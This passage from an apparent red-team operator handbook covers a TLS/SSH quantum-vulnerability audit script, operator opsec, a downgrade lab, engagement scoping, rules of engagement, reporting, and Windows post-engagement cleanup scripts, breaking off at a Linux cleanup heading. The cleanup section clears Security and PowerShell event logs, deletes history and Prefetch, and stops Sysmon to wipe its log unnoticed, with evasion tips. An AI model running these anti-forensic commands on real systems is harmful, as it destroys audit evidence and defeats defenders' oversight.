# Step 2: Probe TLS cipher suites per host
echo "[*] Probing TLS cipher suites ..."
VULNERABLE_COUNT=0
PQC_COUNT=0

while IFS=" " read -r ip port; do
    result=$(echo | timeout 5 openssl s_client \
        -connect "$ip:$port" \
        -cipher 'ALL:!aNULL:!eNULL' \
        -tls1_2 2>/dev/null | \
        grep -E "^(New|Cipher|Server Temp Key|Subject)" | head -10)
    
    if [ -n "$result" ]; then
        cipher=$(echo "$result" | grep "Cipher" | awk '{print $NF}')
        server_key=$(echo "$result" | grep "Server Temp Key")
        subject=$(echo "$result" | grep "Subject" | head -1)
        
        vuln="YES"
        if echo "$cipher $server_key" | grep -qiE "ML.KEM|Kyber|MLKEM"; then
            vuln="NO (PQC hybrid detected)"
            PQC_COUNT=$((PQC_COUNT + 1))
        fi
        
        if [ "$vuln" = "YES" ]; then
            VULNERABLE_COUNT=$((VULNERABLE_COUNT + 1))
            echo "[VULNERABLE] $ip:$port | Cipher: $cipher | $subject"
            echo "$ip:$port|$cipher|$subject" >> "$OUTPUT_DIR/vulnerable.csv"
        else
            echo "[PQC-HYBRID] $ip:$port | $vuln"
        fi
    fi
done < "$OUTPUT_DIR/tls_targets.txt"

# Step 3: SSH key exchange audit
echo ""
echo "[*] Auditing SSH key exchange algorithms ..."
SSH_VULN=0
grep " 22$\|22 " "$OUTPUT_DIR/tls_targets.txt" 2>/dev/null | awk '{print $1}' | while read -r ip; do
    kex=$(ssh -o ConnectTimeout=3 \
              -o BatchMode=yes \
              -o StrictHostKeyChecking=no \
              -vvv "$ip" 2>&1 | \
              grep "server_host_key_algorithms\|kex_algorithms" | head -2)
    if echo "$kex" | grep -qiE "rsa|ecdsa|ecdh"; then
        if ! echo "$kex" | grep -qiE "ml-kem\|kyber|sntrup761"; then
            echo "[SSH-VULN] $ip | No PQC KEx detected"
            SSH_VULN=$((SSH_VULN + 1))
        fi
    fi
done

# Step 4: Summary
echo ""
echo "================================================================"
echo "  AUDIT SUMMARY"
echo "  Quantum-vulnerable TLS endpoints: $VULNERABLE_COUNT"
echo "  PQC hybrid TLS endpoints:         $PQC_COUNT"
echo "  Full results:                      $OUTPUT_DIR/"
echo "================================================================"
echo ""
echo "[*] SNDL PRIORITY TARGETS saved to: $OUTPUT_DIR/vulnerable.csv"
echo "    These systems expose RSA/ECDH key exchange material."
echo "    Traffic to/from them is an SNDL collection priority."
```

---

### 3.6 OPERATOR PQC OPSEC

```
THE OPERATOR IS ALSO AN SNDL TARGET:
  You communicate with C2 servers. You send reports. You log into client infrastructure.
  All of that traffic is visible to adversaries who are also running SNDL programs.
  Your operational security must account for the fact that your own traffic is
  being archived for future decryption.

PROTECT YOUR OWN TRAFFIC:

  VPN:
    Primary: Mullvad VPN (supports WireGuard with ML-KEM hybrid since 2023)
             Enable: Settings > VPN Settings > Quantum-Resistant Tunnels: ON
    Secondary: ProtonVPN (quantum-resistant tunnel option under Advanced settings)
    Avoid: VPNs without PQC support (OpenVPN with RSA = SNDL-vulnerable)

  SSH:
    Add to your ~/.ssh/config and /etc/ssh/sshd_config:
    KexAlgorithms sntrup761x25519-sha512@openssh.com,curve25519-sha256
    HostKeyAlgorithms ssh-ed25519,sk-ssh-ed25519@openssh.com
    Ciphers chacha20-poly1305@openssh.com,aes256-gcm@openssh.com
    MACs hmac-sha2-512-etm@openssh.com

    sntrup761x25519-sha512 provides hybrid post-quantum protection:
    the classical X25519 DH plus the sntrup761 lattice-based KEM.
    Requires OpenSSH 9.0+ (Ubuntu 22.04+ has this by default).
    Verify: ssh -Q kex | grep sntrup

  C2 Communication:
    Sliver with mTLS: already uses modern TLS 1.3 with ECDHE.
    For maximum OPSEC: deploy your C2 listener behind Cloudflare (CDN fronting):
    the outer TLS connection to Cloudflare's edge uses their PQC hybrid implementation.

  File Storage and Reports:
    Encrypt all reports and sensitive files with age (age-encryption.org):
    age uses X25519 (classically secure today) but is migrating to ML-KEM.
    For long-term storage (10+ year SNDL protection): use ML-KEM-1024 when age v2 ships.
    For today: age + AES-256 encrypted at rest is adequate for 5-year horizon.
```

---

### 3.7 LAB PATH FOR BEGINNERS (5-WEEK STRUCTURE)

```
WEEK 1: Cryptography Foundations
  Goal: understand what is broken and why before building any tools
  [ ] Read: "An Introduction to Mathematical Cryptography" (Hoffstein et al.) Chapters 1-4
  [ ] Watch: "Quantum Computing for Cryptographers" (Christof Paar, YouTube, free)
  [ ] Complete: Cryptopals challenges Set 1 (cryptopals.com): understand AES in practice
  [ ] Lab: Run the cryptographic audit script against your home network
  
WEEK 2: SNDL Infrastructure
  [ ] Set up Zeek + tcpdump on a Raspberry Pi 4 (or Ubuntu VM with bridged NIC)
  [ ] Run the SNDL filter for 24 hours on your home network
  [ ] Query your ssl.log: how many connections use vulnerable cipher suites?
  [ ] Build the SQLite index: practice tagging entries by priority
  
WEEK 3: PQC Library Exploration
  [ ] Build liboqs from source: verify all ML-KEM algorithms compile
  [ ] Run the ML-KEM timing script at 5,000 samples: observe output
  [ ] Re-run at 50,000 samples: compare p-values
  [ ] Lab: run on bare metal (not VM) if available: compare jitter
  
WEEK 4: PQC Downgrade Lab
  [ ] Set up a lab with two VMs: one acting as a TLS client (Firefox), one as a server
  [ ] Configure the server to offer ML-KEM hybrid TLS (nginx with OQS provider)
  [ ] Run the downgrade script in MITM position (arpspoof between VMs)
  [ ] Confirm in Wireshark: the resulting session uses a classical cipher suite
  [ ] Capture the session with tcpdump and archive in your SNDL test database
  
WEEK 5: Audit and Reporting
  [ ] Run the crypto audit script against a lab network with 5+ VMs
  [ ] Write a 2-page SNDL findings brief: which systems are at risk, why, priority
  [ ] Research: what is your client's VPN and does it support PQC?
  [ ] Submit a hypothetical SNDL report section as a writing exercise
```

---

## SECTION 4: RED TEAM OPERATIONS

> The report is what the client paid for. The attack was how you earned the right to write it. Professional red teaming requires scoping discipline, airtight documentation, and structured delivery. An operation with no report is just crime.

<div align="center">
<table><tr><td>



</td></tr></table>
</div>
---

### 4.1 PRE-ENGAGEMENT SCOPING QUESTIONNAIRE

```
Send this to the client before signing the Statement of Work.
Their answers define your legal boundary. Every item NOT authorized
is explicitly excluded in writing. Their signature covers your actions.

================================================================
RED TEAM ENGAGEMENT: PRE-SCOPE QUESTIONNAIRE
================================================================

CLIENT INFORMATION:
  Company Name:
  Primary Contact Name + Title:
  Primary Contact Email + Phone:
  Legal/Compliance Contact Name:
  Emergency 24/7 Contact (for abort/incident): Name + Direct Cell

ENGAGEMENT SCOPE:

  1. NETWORK SCOPE
     a. IP ranges in scope (CIDRs):
     b. IP ranges explicitly OUT of scope:
     c. Cloud environments in scope: [AWS / Azure / GCP / None]
        Accounts/subscriptions:
     d. SaaS applications in scope: [Salesforce / M365 / Workday / etc.]
     e. Third-party environments in scope: YES / NO

  2. PHYSICAL SCOPE
     a. Physical locations in scope (addresses):
     b. Physical locations OUT of scope:
     c. Physical techniques authorized:
        [ ] Tailgating / social entry
        [ ] Lock bypass (picking, shimming, bypass tools)
        [ ] RFID cloning and credential replay
        [ ] Hardware implant deployment (LAN Turtle, similar)
        [ ] Drone aerial recon (optical)
        [ ] Drone thermal recon
        [ ] Document/badge replication
        [ ] After-hours access attempts
        [ ] None: physical out of scope
     d. Areas within in-scope locations that are OFF LIMITS:

  3. SOCIAL ENGINEERING SCOPE
     a. Vishing authorized: YES / NO
        If YES: which departments are in scope?
     b. Spear phishing authorized: YES / NO
        If YES: which groups/departments?
        Credential harvesting in scope: YES / NO
        Malicious file delivery in scope: YES / NO
     c. USB drop authorized: YES / NO
        If YES: deployment locations in scope?
     d. Executives in scope for SE: YES / NO
        Any executives explicitly excluded (name them):

  4. TECHNICAL SCOPE
     a. Authorized attack techniques:
        [ ] External network scanning and enumeration
        [ ] Web application testing (OWASP Top 10)
        [ ] Internal network compromise post-initial-access
        [ ] Active Directory attacks (Kerberoasting, ASREP, BloodHound, ADCS)
        [ ] ADCS exploitation (certificate template abuse)
        [ ] Azure AD / Entra ID attacks (token theft, app registration abuse)
        [ ] Credential dumping (LSASS, SAM, NTDS.dit)
        [ ] Lateral movement
        [ ] Persistence mechanisms
        [ ] Data exfiltration (simulated)
        [ ] Ransomware simulation (test files only)
        [ ] Domain compromise / DC takeover simulation
        [ ] Cloud lateral movement (Azure, AWS, GCP)
     b. Production systems: hands-off / handle with care / full scope:
     c. Denial of Service attacks: IN scope / OUT of scope
     d. Destructive payloads: IN scope / OUT of scope

  5. TIMING
     a. Engagement start date:
     b. Engagement end date:
     c. Authorized attack windows:
        [ ] Business hours only (09:00-18:00 local)
        [ ] After hours (18:00-08:00)
        [ ] Weekends
        [ ] 24/7
     d. Blackout periods (no testing): earnings announcements, board meetings, etc.

  6. DETECTION AND ESCALATION
     a. Blue team (SOC/IR) aware of engagement: YES / NO
        If YES: deconfliction process:
        If NO: this is a blind test. Confirm in writing.
     b. If blue team declares an incident during the engagement:
        Abort and call emergency contact: YES / NO
        Continue stealth and observe response: YES / NO (advanced option)
     c. If law enforcement is contacted:
        Emergency contact authorized to brief law enforcement immediately: YES / NO

  7. RULES OF ENGAGEMENT (confirm each):
     [ ] No production data will be exfiltrated (simulated only)
     [ ] Operator identifies themselves if physically detained
     [ ] All credentials discovered will be disclosed in the report
     [ ] No ransomware deployed against live production systems
     [ ] Engagement abort phrase: "[PHRASE AGREED WITH CLIENT]"
     [ ] Daily deconfliction check-in: YES / NO | Time:

  8. DELIVERABLES:
     [ ] Executive Summary (non-technical, 2-3 pages)
     [ ] Technical Report (full findings, evidence, CVSSv4 ratings)
     [ ] Attack Narrative (chronological kill chain walkthrough)
     [ ] Remediation Roadmap (prioritized fixes with effort estimates)
     [ ] Re-test (remediation verification): YES / NO
     [ ] Purple Team session: YES / NO
     [ ] Debrief session: YES / NO

SIGNATURE:
  Client Authorized Signatory: _______________________ Date: ________
  Red Team Lead:               _______________________ Date: ________
================================================================
```

---

### 4.2 RULES OF ENGAGEMENT DOCUMENT

```
================================================================
RULES OF ENGAGEMENT (ROE)
================================================================
Engagement ID:     [UNIQUE-ID]
Client:            [CLIENT COMPANY NAME]
Red Team Provider: [YOUR COMPANY NAME]
Effective Dates:   [START] to [END]

1. AUTHORIZATION
   This engagement is authorized by [CLIENT AUTHORIZED SIGNATORY],
   [TITLE], [CLIENT COMPANY NAME], under the Master Services Agreement
   dated [DATE] and Statement of Work #[NUMBER].
   
   All red team activities within the defined scope constitute authorized
   penetration testing under: the Computer Fraud and Abuse Act (18 USC 1030),
   UK Computer Misuse Act 1990, and equivalent applicable statutes.

2. AUTHORIZED ACTIVITIES
   Red team operators are authorized to:
   - [Enumerate, scan, and attack IP ranges: list]
   - [Conduct social engineering against: list]
   - [Conduct physical testing at: list]
   - [Deploy hardware implants at: list]
   - [Use the following C2 domains: list]

3. PROHIBITED ACTIVITIES (regardless of feasibility)
   - Accessing or exfiltrating real sensitive data (PII, PHI, PCI, confidential)
   - Deploying ransomware or wiper payloads against production systems
   - Any activity that causes service disruption or system instability
   - Accessing systems outside the defined scope
   - Pivoting to third-party infrastructure not explicitly in scope

4. OPERATOR IDENTIFICATION
   All operators carry the following authorization letter at all times
   during physical operations:

   -- AUTHORIZATION LETTER -----------------------------------------
   [OPERATOR NAME] is conducting authorized security testing for
   [CLIENT COMPANY NAME] under contract #[NUMBER] dated [DATE].
   For verification, contact [CLIENT CONTACT NAME] at [DIRECT CELL].
   Red team operator MUST comply with all lawful requests from
   security or law enforcement personnel.
   Signed: [CLIENT AUTHORIZED SIGNATORY] [DATE]
   ----------------------------------------------------------------

5. EMERGENCY CONTACT AND ABORT PROCEDURE
   Client Emergency Contact: [NAME] -- [DIRECT CELL 24/7]
   
   All activity STOPS IMMEDIATELY if:
   a. The client emergency contact speaks the abort phrase: "[PHRASE]"
   b. A red team operator is physically detained
   c. Any activity risks imminent harm to a person
   d. Any activity threatens to cause unrecoverable system damage
   
   On abort: all operators stop, secure equipment, identify themselves
   to security personnel, and call the emergency contact.

6. DATA HANDLING
   Any credentials, sensitive data, or PII encountered:
   - Logged only as type and location (never as content)
   - Never transmitted outside the client's infrastructure
   - Destroyed from operator systems within 5 business days of report delivery

SIGNATURES:
  Red Team Lead:    ___________________ Date: ________
  Client Signatory: ___________________ Date: ________
================================================================
```

---

### 4.3 REPORT STRUCTURE AND WRITING

```
FINDING FORMAT (one page per finding):

  +--------------------------------------------------------------+
  | Finding ID: F-001                                            |
  | Title:      Credential Disclosure via Vishing                |
  | Severity:   CRITICAL                                         |
  | CVSSv4.0:   9.3                                              |
  | MITRE ATT&CK: T1566.004 (Vishing)                            |
  +--------------------------------------------------------------+
  | DESCRIPTION:                                                 |
  | During a phone call impersonating the IT help desk,          |
  | an employee disclosed their Active Directory password and    |
  | provided an MFA one-time code within 3 minutes of first      |
  | contact.                                                     |
  +--------------------------------------------------------------+
  | EVIDENCE:                                                    |
  | Screenshot: GoPhish call log [TIMESTAMP]                     |
  | Screenshot: Successful domain authentication                 |
  +--------------------------------------------------------------+
  | IMPACT:                                                      |
  | Domain user access to all shared drives, email, and internal |
  | applications. This access enabled all subsequent findings.   |
  +--------------------------------------------------------------+
  | REMEDIATION:                                                 |
  | 1. Implement phishing-resistant MFA (FIDO2/WebAuthn).        |
  |    Eliminates OTP bypass. [Effort: Medium]                   |
  | 2. Security awareness training: callback verification        |
  |    procedure for all credential change requests. [Low]       |
  | 3. IT helpdesk procedure: identity verification before any   |
  |    credential operation. [Effort: Low]                       |
  +--------------------------------------------------------------+
  | REFERENCES: MITRE ATT&CK T1566.004 | NIST SP 800-63B Sec 5.2 |
  +--------------------------------------------------------------+

SEVERITY RATINGS (CVSSv4.0 only: released October 2023):
  Critical (9.0-10.0): direct path to complete compromise
  High     (7.0-8.9):  significant impact, chained with 1-2 other findings
  Medium   (4.0-6.9):  notable risk, requires favorable conditions
  Low      (0.1-3.9):  limited impact, hardening recommendation
  Info     (0.0):      observation / best practice suggestion

CVSSv4.0 ENVIRONMENTAL SCORE ADJUSTMENT:
  Beyond the base score: CVSSv4.0 includes Environmental metrics that adjust
  the score for the specific client environment. These matter in 2027.
  
  Modified Availability Impact (MAV): if the affected system is a DR environment
  vs. production, the score changes significantly.
  
  Attack Requirements (AT): "Present" vs "None" for multi-step attacks.
  
  Use cvssv4calc.first.org for all calculations.
  NEVER report a score without the vector string (e.g., CVSS:4.0/AV:N/AC:L/AT:N/...).
  The vector string is the evidence that the score is calculated, not guessed.

WRITING STYLE RULES:
  Active voice: "We gained access to..." not "Access was gained..."
  Past tense for narrative (it happened); present tense for vulnerability state
  No jargon in executive summary without a brief parenthetical definition
  Every claim of success = a screenshot or log entry as evidence
  Remediation steps must be specific and actionable:
    BAD:  "Improve password security"
    GOOD: "Enforce minimum 16-character passphrases in Group Policy at
           Computer Configuration > Windows Settings > Security Settings >
           Account Policies > Password Policy."
  Anonymize staff names in the final deliverable unless client requests otherwise
```

---

### 4.4 DEBRIEF METHODOLOGY

```
DEBRIEF STRUCTURE (90-minute session):

  Section 1 (10 min): What we did
    Walk the attack narrative on a timeline visual.
    Day 0 to Day N: one line per major milestone.
    No jargon. The CFO who approved the budget must understand and be alarmed.

  Section 2 (20 min): What we found
    Walk the top 5 findings. One slide per finding.
    Each slide: title, severity, plain-language impact, one screenshot.
    Show the evidence. Screenshots of successful attacks land harder than descriptions.

  Section 3 (10 min): What worked on your side
    Always find genuine positives. Every client does something right.
    This section tells the client you are here to make them better, not embarrass them.

  Section 4 (10 min): What to fix first
    THREE items only. Not fifteen.
    If they leave knowing three things and do those three things: the engagement succeeds.
    Give effort estimate and owner assignment for each.

  Section 5 (30 min): Questions
    Open floor. The security architect will ask something technical: have the detail.
    The CISO will ask something political: be honest.
    The CIO will ask about cost: have rough effort estimates.
    
    The question you will always get: "How do we compare to other companies?"
    Have an honest answer ready. Do not make up a percentile.
    Share what you observe from your portfolio of engagements.

  Section 6 (10 min): Next steps
    Confirm the re-test schedule (if included).
    Confirm who owns each remediation item.
    Confirm report delivery date if not already delivered.

DEBRIEF DELIVERY RULES:
  Never blame individuals (never name the person who gave up credentials)
  No condescension (the client is not stupid: the adversary is sophisticated)
  No minimizing ("it is not that bad") and no catastrophizing ("you are totally exposed")
  Come with the remediation roadmap already drafted: save them work
  Record the session (with permission): written notes miss context

DEBRIEF CHALLENGE QUESTIONS (prepare answers to these before the session):
  "Would a real attacker have stopped where you stopped?"
  "Is our SOC team actually bad, or was this an unusually skilled engagement?"
  "If someone had been watching during the attack, what would they have seen?"
  "How long would it have taken you if you had no prior knowledge of our environment?"
  "Which finding, if fixed, would have prevented the most downstream damage?"
```

---

### 4.5 PURPLE TEAM AND RE-TEST

```
WHAT IS A PURPLE TEAM:
  A collaborative session where the red team runs attacks while the blue team
  (client SOC) watches in real time. Not adversarial: educational.
  
  The blue team learns: what does our SIEM look like when this happens?
  The red team learns: what does the blue team actually see?

PURPLE TEAM SESSION FORMAT (4-8 hours):
  For each TTP from the engagement:
    1. Red team announces: "We are about to run Kerberoasting from a domain user context."
    2. Blue team watches their SIEM/EDR.
    3. Red team runs: GetUserSPNs.py, requests service tickets.
    4. Blue team: "We see [alert fired / no alert]."
    5. Discussion: if no alert, why not? What log source? What query?
    6. Build the detection together. Document it.

RE-TEST PROCESS (30-90 days after initial report):
  Scope: original findings only.
  
  For each finding: re-run the original attack technique.
  
  Outcome: REMEDIATED (update to "Remediated": note the fix with evidence)
  Outcome: PARTIALLY REMEDIATED (re-rate severity, usually lower: note what remains)
  Outcome: NOT REMEDIATED (original status unchanged)
  Outcome: REGRESSION (new related issue introduced: add as new finding)

  Deliverable: Re-test Summary Report (2-5 pages):
    - All original findings with updated status
    - Evidence for each remediated finding (screenshot confirming fix)
    - Delta risk score: how much did posture improve?
    - Any new findings discovered during re-test scope

RE-TEST SCOPE BOUNDARY:
  If you discover a completely new critical vulnerability during a re-test:
  pause immediately. Inform the client. Get written authorization before exploiting.
  The re-test scope is not a blank check for new discovery.
```

---

### 4.6 THREAT-INTELLIGENCE-LED TESTING: TIBER-EU AND CBEST

```
WHAT THESE ARE:
  TIBER-EU (Threat Intelligence-Based Ethical Red Teaming):
    European Central Bank framework for testing financial sector organizations.
    Mandated for major EU financial institutions under DORA (Digital Operational
    Resilience Act, effective January 2025).
    
  CBEST:
    UK equivalent, run under Bank of England oversight.
    Required for UK systemically important financial institutions.

WHY TOP OPERATORS NEED TO KNOW THESE:
  If your clients include banks, insurance companies, payment processors, or
  capital markets firms: you will encounter TIBER-EU or CBEST requirements.
  Not knowing the framework is a disqualifier for those engagements.

HOW TIBER-EU DIFFERS FROM A STANDARD RED TEAM:

  Phase 1: Threat Intelligence (3-4 weeks BEFORE the red team begins)
    A separate Threat Intelligence Provider (TIP) is engaged.
    The TIP produces a Targeted Threat Intelligence (TTI) report:
      - Which threat actors actively target this sector and geography?
      - What are their known TTPs (MITRE ATT&CK mapped)?
      - What specific assets (systems, data) would they target?
    
    Result: the red team attack is NOT generic: it replicates the TTPs of real,
    identified threat actors that actually target this client's sector.

  Phase 2: Red Team Test (8-12 weeks typical)
    The red team executes ONLY the TTPs specified in the TTI report.
    Attack paths are realistic: you are simulating APT-XYZ's actual methodology,
    not just whatever works fastest.
    
    Scope is typically:
      - Full external attack surface
      - Social engineering
      - Physical (if in scope)
      - Internal network: post-compromise, crown jewel access simulation
    
    The "crown jewels" are defined in advance (with the TIP): specific systems
    or data assets whose compromise would constitute the worst-case scenario.

  Phase 3: Closure (2-4 weeks)
    All three parties (client, TIP, red team) submit reports.
    The regulator (ECB, Bank of England) reviews the TIBER output reports.
    Findings and remediation plans are submitted to the regulator.

TIBER-EU DOCUMENTATION REQUIREMENTS:
  All standard red team documentation PLUS:
  - Threat intelligence mapping: every attack technique mapped to a specific
    threat actor TTP from the TTI report
  - Chain of evidence: every action logged with precise timestamp
  - Crown jewel reach: exact evidence of when/if crown jewels were reached
  - Control effectiveness matrix: which defensive controls were observed to work

HOW TO GET STARTED WITH TIBER-EU:
  Read: "TIBER-EU Framework" document (ecb.europa.eu, free, 50 pages)
  Read: "TIBER-EU Services Procurement Guidelines" (same source)
  Get listed: national TIBER implementations maintain approved provider lists
    (TIBER-NL, TIBER-DE, TIBER-BE: each country has its own registry)
  First engagement: work as a subcontractor to an already-approved red team
    firm on a TIBER engagement before leading one

CBEST OVERVIEW:
  Very similar to TIBER-EU but predates it.
  Governed by: CBEST Intelligence-Led Testing Framework (Bank of England, 2016, updated 2022)
  Provider categories: Intelligence Firm (equivalent to TIP) + Penetration Test Firm
  Approval process: apply through CREST or Tigerscheme (CBEST-approved schemes)
  Focus: UK banking and financial market infrastructure
  
  Key difference from TIBER: CBEST uses a more prescriptive testing methodology
  document (the CBEST Test Plan) which specifies exact test scenarios.

BOTH FRAMEWORKS REQUIRE:
  - Formal scoping documentation beyond standard red team
  - Threat intelligence integration (the test replicates real threat actors)
  - Three-way reporting (client, red team, intel firm all submit separate reports)
  - Regulatory submission and review
  - Remediation planning submitted to the regulator
  - Closure meeting with the regulator in some jurisdictions

PRACTICAL IMPLICATION FOR YOUR REPORT:
  In a TIBER or CBEST engagement: every finding must cite:
    a. The threat actor TTP it replicates (from the TTI report)
    b. The MITRE ATT&CK technique ID
    c. The specific control (or absence of control) that was relevant
    d. The recommended control improvement mapped to the threat actor's capability
  
  Generic finding descriptions ("Weak password policy found") are not acceptable.
  Every finding must connect to the threat intelligence context.
```

---

## SECTION 5: POST-ENGAGEMENT CLEANUP

> You were there. Then you were not. That is the standard. A red team that leaves artifacts is a red team that creates an incident for the client's SOC and a liability for you. Complete cleanup is not optional: it is part of the deliverable.

<div align="center">
<table><tr><td>



</td></tr></table>
</div>

---

### 5.1 DIGITAL FOOTPRINT REMOVAL

#### Windows Cleanup

```powershell
# ===================================================================
# WINDOWS POST-ENGAGEMENT CLEANUP SCRIPT
# Run as: PowerShell -ExecutionPolicy Bypass -File cleanup_win.ps1
# ===================================================================

# Section 1: Remove Scheduled Tasks created during engagement
Write-Host "[*] Removing scheduled tasks ..."
$TaskNames = @("WindowsUpdate", "SystemHealthCheck", "AdobeSync")  # your task names
foreach ($task in $TaskNames) {
    if (Get-ScheduledTask -TaskName $task -ErrorAction SilentlyContinue) {
        Unregister-ScheduledTask -TaskName $task -Confirm:$false
        Write-Host "  [+] Removed task: $task"
    }
}

# Section 2: Remove services created during engagement
Write-Host "[*] Removing services ..."
$ServiceNames = @("SvcHostHelper", "WindowsTelemetry")  # your service names
foreach ($svc in $ServiceNames) {
    if (Get-Service -Name $svc -ErrorAction SilentlyContinue) {
        Stop-Service -Name $svc -Force
        sc.exe delete $svc
        Write-Host "  [+] Removed service: $svc"
    }
}

# Section 3: Remove registry persistence keys
Write-Host "[*] Cleaning registry persistence ..."
$RegPaths = @(
    "HKCU:\Software\Microsoft\Windows\CurrentVersion\Run",
    "HKLM:\Software\Microsoft\Windows\CurrentVersion\Run",
    "HKLM:\Software\Microsoft\Windows NT\CurrentVersion\Winlogon",
    "HKCU:\Software\Microsoft\Windows NT\CurrentVersion\Windows"
)
$OurValues = @("WindowsHelper", "SysUpdate")  # your value names
foreach ($path in $RegPaths) {
    foreach ($val in $OurValues) {
        if (Get-ItemProperty -Path $path -Name $val -ErrorAction SilentlyContinue) {
            Remove-ItemProperty -Path $path -Name $val -Force
            Write-Host "  [+] Removed registry key: $path\$val"
        }
    }
}

# Section 4: Remove WMI event subscriptions (common persistence mechanism)
Write-Host "[*] Removing WMI event subscriptions ..."
Get-WMIObject -Namespace root/subscription -Class __EventFilter |
    Where-Object { $_.Name -like "*Update*" -or $_.Name -like "*Sync*" } |
    ForEach-Object {
        $_.Delete()
        Write-Host "  [+] Removed WMI EventFilter: $($_.Name)"
    }
Get-WMIObject -Namespace root/subscription -Class __EventConsumer |
    Where-Object { $_.Name -like "*Update*" -or $_.Name -like "*Sync*" } |
    ForEach-Object {
        $_.Delete()
        Write-Host "  [+] Removed WMI EventConsumer: $($_.Name)"
    }
Get-WMIObject -Namespace root/subscription -Class __FilterToConsumerBinding |
    ForEach-Object { $_.Delete() } 2>$null

# Section 5: Remove dropped files
Write-Host "[*] Removing dropped files ..."
$OurFiles = @(
    "$env:TEMP\beacon.exe", "$env:TEMP\stager.ps1",
    "C:\Windows\Temp\WindowsUpdate.exe",
    "C:\ProgramData\Microsoft\WindowsHelper.dll"
)
foreach ($f in $OurFiles) {
    if (Test-Path $f) {
        Remove-Item -Path $f -Force
        Write-Host "  [+] Removed file: $f"
    }
}

# Section 6: Clear PowerShell history (ALL layers)
Write-Host "[*] Clearing PowerShell history ..."
Clear-History  # In-session history

$PSHistPath = (Get-PSReadlineOption).HistorySavePath
if ($PSHistPath -and (Test-Path $PSHistPath)) {
    Remove-Item -Path $PSHistPath -Force
    Write-Host "  [+] Removed PSReadLine history: $PSHistPath"
}
# Disable PSReadLine history going forward (this session):
Set-PSReadLineOption -HistorySaveStyle SaveNothing

# Section 7: Clear standard Windows Event Logs
Write-Host "[*] Clearing Windows Event Logs ..."
# NOTE: See Section 5.4 (Log Clearing Decision Tree) before executing this section.
# In a blind red team: clear logs. In a purple team or client-aware engagement:
# discuss with the client first.
$Logs = @("Security", "System", "Application", "PowerShell/Operational",
          "Microsoft-Windows-PowerShell/Operational",
          "Microsoft-Windows-TerminalServices-LocalSessionManager/Operational",
          "Microsoft-Windows-RemoteDesktopServices-RdpCoreTS/Operational")
foreach ($log in $Logs) {
    try {
        wevtutil cl $log 2>$null
        Write-Host "  [+] Cleared log: $log"
    } catch {
        Write-Host "  [!] Could not clear: $log"
    }
}

Write-Host ""
Write-Host "[*] Windows cleanup complete."
```

#### Sysmon Artifact Cleanup (Critical Gap Most Teams Miss)

```powershell
# ===================================================================
# SYSMON-SPECIFIC CLEANUP
# Sysmon logs to: Microsoft-Windows-Sysmon/Operational
# Standard wevtutil clear does NOT always clear Sysmon if it is
# running as a protected service.
#
# Sysmon records: process creation (Event ID 1), network connections (3),
# file creation (11), registry events (12-14), pipe events (17-18).
# These survive a standard Security log clear and expose your TTPs.
# ===================================================================

# Check if Sysmon is running:
Get-Service | Where-Object { $_.DisplayName -like "*Sysmon*" }

# Option A: Clear Sysmon log directly (requires local admin):
wevtutil cl "Microsoft-Windows-Sysmon/Operational"

# Option B: If Sysmon is running and log is protected (large organization):
# Stop the Sysmon service first (requires SYSTEM or elevated admin):
Stop-Service -Name Sysmon64 -Force 2>$null
Stop-Service -Name Sysmon -Force   2>$null
Start-Sleep -Seconds 3
wevtutil cl "Microsoft-Windows-Sysmon/Operational"
Start-Service -Name Sysmon64 2>$null  # Restart so blue team does not notice Sysmon stopped

# Option C: If you cannot clear Sysmon (protected by tamper-resistant EDR):
# The best option is to have run your operations in a way that produces
# minimal Sysmon artifacts from the start:
# - Use process hollowing or injection (parent PID spoofing reduces Event ID 1 correlation)
# - Use network connections to CDN IP ranges (Event ID 3 is hard to triage at volume)
# - Avoid writing files to disk: use in-memory execution where possible

# Section 8: Clear Prefetch (records which executables ran):
Write-Host "[*] Clearing Prefetch ..."
Remove-Item -Path "C:\Windows\Prefetch\*" -Force -Recurse 2>$null

# Section 9: Clear Windows Temp directories:
Remove-Item -Path "C:\Windows\Temp\*" -Force -Recurse 2>$null
Remove-Item -Path "$env:TEMP\*" -Force -Recurse 2>$null

# Section 10: Remove from Amcache.hve (records executed files):
# Amcache cannot be deleted while Windows is running.
# It is overwritten over time: this is the one artifact that requires
# either offline deletion (boot from WinPE) or accepting that it will
# age out. Document this limitation in your cleanup notes.
Write-Host "[!] Amcache.hve: cannot clear while running. Ages out naturally."
Write-Host "[*] All other cleanup complete."
```

#### Linux Cleanup

```bash
#!/usr/bin/env bash
# ===================================================================
